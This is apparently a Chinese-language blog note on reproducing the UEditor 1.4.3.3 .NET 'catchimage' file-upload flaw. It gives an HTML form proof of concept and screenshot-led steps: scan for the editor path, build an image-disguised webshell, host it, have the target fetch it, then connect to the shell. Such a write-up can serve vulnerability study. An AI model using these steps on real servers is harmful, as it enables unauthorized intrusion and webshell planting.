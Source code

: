 这个漏洞我一直没有成功过，要复现一波。

2022年9月25 更新了一下原理，解读了源码以及从源码的角度去绕waf<br />[https://www.yuque.com/aufeng/aufeng_good/smmflw](https://www.yuque.com/aufeng/aufeng_good/smmflw)

ueditor  1.4.3.3 Net版<br />[https://copyfuture.com/blogs-details/202007290059457205bedrikh7z0by2c](https://copyfuture.com/blogs-details/202007290059457205bedrikh7z0by2c)

漏洞特征。但是有时候ueditor的位置不一定在根目录下，出现以下情况，很有可能存在漏洞。而且目标服务器还得要出网才行。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614439148295-fb78454b-872a-4d80-98bb-092987f9df2b.png#height=130&id=vcUO0&originHeight=173&originWidth=977&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18903&status=done&style=none&title=&width=733)<br />POC
```html
<form action="http://ip/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
  <p>shell addr:<input type="text" name="source[]" /></p >
  <input type="submit" value="Submit" />
</form>
```

漏洞复现：<br />实战发现这个，403禁止访问，证明可能存在其他页面。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985278917-773c5d68-2635-4e54-b26d-5a895e15d669.png#height=187&id=Pxj47&originHeight=249&originWidth=785&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27344&status=done&style=none&title=&width=589)<br />直接扫描目录发现存在ueditor的路径。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985357231-4ab91d12-8084-4ede-b4aa-28352c504dcb.png#height=194&id=bFOBW&originHeight=259&originWidth=655&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28926&status=done&style=none&title=&width=491)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985515709-4aed280a-30b9-402c-a34e-773dad6e7f0f.png#height=107&id=nC5Gu&originHeight=142&originWidth=765&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16615&status=done&style=none&title=&width=574)

注意！powershell生产图片马会报错的。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620984948808-0b0d6d9d-ad90-4fe4-925f-03faef596052.png#height=360&id=BFr37&originHeight=360&originWidth=837&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27589&status=done&style=none&title=&width=837)<br />用CMD命令框生成就行。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985048100-5c3a8167-8b61-4215-9325-a83ceeb26316.png#height=370&id=FdVB3&originHeight=493&originWidth=740&originalType=binary&ratio=1&rotation=0&showTitle=false&size=47366&status=done&style=none&title=&width=555)<br />然后将该图片马传至服务器上。然后起一层http的服务就可以。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985249879-f9b67a89-fd2e-427f-92fc-df8bb8376e8c.png#height=79&id=uZMMh&originHeight=79&originWidth=320&originalType=binary&ratio=1&rotation=0&showTitle=false&size=4497&status=done&style=none&title=&width=320)

然后把漏洞路径替换掉action<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985472704-344a8027-2434-4715-8760-5e15130c50d4.png#height=101&id=glH9c&originHeight=202&originWidth=1409&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29145&status=done&style=none&title=&width=704.5)<br />输入服务器的地址<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985685818-216ef9b4-def8-4175-98cc-113ff6a1f12d.png#height=124&id=MEbSJ&originHeight=165&originWidth=711&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10652&status=done&style=none&title=&width=533)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620985975794-4c453721-b90d-41a5-9ac6-b39ef6d8c65f.png#height=181&id=XtCXq&originHeight=241&originWidth=933&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62351&status=done&style=none&title=&width=700)

需要把返回的路径拼接在[/ueditor/net/](http://192.168.0.103/ueditor/net/)后面<br />[http://ip/ueditor/net/](http://192.168.0.103/ueditor/net/)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620986084104-e1605f6c-fd97-4472-95d4-cde2c1a0bd21.png#height=117&id=hdC8C&originHeight=233&originWidth=963&originalType=binary&ratio=1&rotation=0&showTitle=false&size=299882&status=done&style=none&title=&width=481.5)<br />但有时候返回的值不一定是这样子的，所以要按照实际情况去连webshell。

